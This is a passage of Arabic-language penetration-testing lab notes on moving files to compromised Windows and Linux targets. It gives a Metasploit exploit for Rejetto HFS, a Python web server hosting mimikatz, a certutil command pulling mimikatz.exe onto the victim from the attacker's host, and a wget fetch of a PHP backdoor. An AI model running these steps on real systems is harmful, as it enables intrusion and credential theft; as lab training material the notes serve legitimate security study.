 
الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب السابع الي معنا اليوم هو  

Transferring Files To Windows Targets    
-------------------------------------|  

طبعا هذا اللاب نفس الي قبل فتح بايثون سيرفر واستغلينا التارقت وبعدها نفذنا هذا الامر عشان ينقل ملف لنا من مشين الاتاكر الى مشين التارقت عن طريق البايثون سيرفر  

الاستغلال  
```bash
msfconsole  
use exploit/windows/http/rejetto_hfs_exec  
set RHOSTS 10.2.30.185  
exploit  
```  

سيرفر البايثون نفتحه بداخل مسار معين من جهازنا ف نفتح تاب ثاني
```bash
cd /usr/share/windows-resources/mimikatz/x64  
python3 -m http.server 80  
```  

الان نتصل بالسيشن الي فتحت لنا بالاكسبلويت ونروح لمسار معين عشان ننقل الملف  
```bash
cd C:\\  
mkdir Temp  
cd Temp  
shell  
```


والان ننقل الملف بهذا الامر  
```bash
certutil -urlcache -f http://10.10.5.2/mimikatz mimikatz.exe  
```  

طبعا الامر هذا للويندوز فيه اداة للينكس وهي wget  

الى هنا انتهى اللاب نشوف الي بعده  

---

اللاب الثامن الي معنا اليوم هو  

Transferring Files To Linux Targets     
------------------------------------|  

نفس الطريقة السابقه لكن امر نقل الملف يكون  
```bash
wget http://192.196.45.2/php-backdoor.php  
```  

الى هنا انتهى اللاب نشوف الي بعده  

---
